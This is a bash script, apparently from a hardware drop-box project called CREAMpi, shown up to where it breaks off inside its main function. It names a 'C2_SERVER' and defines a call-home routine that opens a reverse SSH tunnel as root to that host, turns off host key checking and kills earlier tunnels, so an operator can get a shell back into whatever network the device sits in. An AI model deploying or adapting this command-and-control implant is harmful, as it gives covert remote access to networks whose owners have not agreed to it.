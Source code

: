 ```bash
#
# SSH reverse tunnel configuration
#
# Below config will connect to the remote server.
# i.e. ssh user@153.231.21.50 -i /root/.ssh/id_rsa and will use the tunnel port to create
# a reverse ssh tunnel to connect back to this host.

# The server which the CREAMpi will connect to
C2_SERVER="192.168.0.123"
# Username that will be used to log in to the remote server
USER="root"
# RSA key file to be used to authenticate to the remote server.
KEY_FILE=/root/.ssh/id_rsa
# Tunnel port to be used in connecting back to this host.
TUN_PORT=2222
# Logging
# the host will try to connect to the remote server time by time. logs are located in
# /var/log/callhome.log to debug, verify the connection.
LOG_DIR=/var/log/callhome.log

# Logging timestamp function
function TIMESTAMP {
  date "+%Y-%m-%d %H:%M:%S"
}

function c2_cleanup {
  echo "[`TIMESTAMP`] Cleaning up process.. " >> $LOG_DIR; sleep 2
  ps aux | grep "ssh -L" | head -n1 | awk '{print $2}' | xargs -I % kill -9 %
}

function c2_callhome {
  echo "[`TIMESTAMP`] Service started.." >> $LOG_DIR ; sleep 2
  echo "[`TIMESTAMP`] Setting up reverse SSH tunnel to specified host ($C2_SERVER)" >> $LOG_DIR
  echo "[`TIMESTAMP`] Connecting to $C2_SERVER using $USER username and keyfile located in $KEY_FILE.." >> $LOG_DIR
  ssh -L $TUN_PORT:127.0.0.1:22 \
          -R $TUN_PORT:127.0.0.1:22 \
          -i $KEY_FILE \
          -N \
          -f \
          -o "PubkeyAuthentication=yes" \
          -o "PasswordAuthentication=no" \
          -o "UserKnownHostsFile=/dev/null" \
          -o "StrictHostKeyChecking=no" \
          $USER@$C2_SERVER
  sleep 2

  CHECK_CON=`netstat -plnt | grep $TUN_PORT | head -n1 | awk {'print $6'}`

  if [[ $CHECK_CON == "LISTEN" ]]; then
    echo "[`TIMESTAMP`] Successfully established reverse ssh tunnel on the remote server ($C2_SERVER).." >> $LOG_DIR
    echo "[`TIMESTAMP`] On the remote server, execute ssh -p $TUN_PORT root@localhost to connect back to $HOSTNAME.."
  else
    echo "[`TIMESTAMP`] ERROR: SSH reverse tunnel failed. Unable to connect to the remote server ($C2_SERVER).." >> $LOG_DIR
  fi
}

function main {
  c2_cleanup
  c2_callhome
```